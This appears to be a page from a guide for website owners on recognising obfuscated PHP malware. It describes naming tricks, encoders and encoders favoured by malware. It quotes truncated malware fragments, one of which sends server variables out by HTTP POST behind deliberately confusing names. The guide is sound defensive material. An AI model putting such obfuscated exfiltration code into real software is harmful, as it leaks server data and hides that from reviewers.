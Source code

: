 ## Obfuscation
At it's core, obfuscation and encoding perform the same function, hiding the purpose of the code. On the simple end, obfuscation attempts to do this by changing function and variable names to be intentionally confusing. On the complex end, obfuscation can result in text that just appears to be random letters, numbers, and punctuation.

### Plain Obfuscation
Some of the more common forms of plain obfuscated code that I've seen are `o0_` and `Il1` code, where those three characters are used for all variable and function names in various combinations.

#### Examples
'il1' obfuscation tends to look similar to the below example, where most of the variables use the number 1, lowercase L, and upper or lower case I characters to deliberately confuse someone looking at the code and make it difficult to eyeball how the variables are being used.
~~~~~~
    <?php if(!@$incode!=false||!@$incode!=null){$vl='s';$serverid='[hash]';$liillilllil=time();
    function lillliilliii($lliiiilllill,$lliiilliiilii,$lililliiiillill,$lilillilllllill){
    if(ini_get('allow_url_fopen')==1):$lillillliiili=stream_context_create(array('http'=>array('method'=>'POST',
    'header'=>array('Content-type: application/x-www-form-urlencoded'),'content'=>http_build_query($_SERVER))));
    if($lilillilllllill=='yes'):...
~~~~~~

'o0_' obfuscation is similar, but uses uppercase O, the number 0, and the underscore character (`_`) to achieve the same end goal.
~~~~~~
    <?php
    //header('Content-Type:text/html; charset=utf-8');
    $O_OOO0__00='someval';
    $OO_OO000__='otherval';
    $O_O0O_0_O0='thirdval';
    $O_O0O0_O0_='etc';
    ...
~~~~~~

### Complex Obfuscation
Complex obfuscation utilizes multiple techniques to make analyzing code more difficult. Most of the time, this is simply a combination of encryption and various encoding and compression techniques. Occasionally, I've come across obfuscation that does additional work, whether that's arithmetic, concatenation, or using substrings. As we run into these in the examples, I'll go into more detail on what the particular sample is doing.

Some of the more complex obfuscation tools straddle the border between obfuscation and encryption. Many commercial encoders are fit this category and can't be easily decoded on an individual file basis. _Fortunately_, these commercial products are easy to detect. _Unfortunately_, if you (as a website owner) don't use these products and you see their files in your website, you will have a tough time figuring out what those files are doing by performing plain code analysis.

Some of the more common commercial obfuscators / encoders are:
* IonCube
* SourceGuardian

Additional obfuscators / encoders that I've seen commonly used by _malware_ include:
* FOPO (Free Online Php Obfuscator) and it's many variants
* AROHA PHP Encoder and it's variants
* Adilbo's Php Encoder and Obfuscator
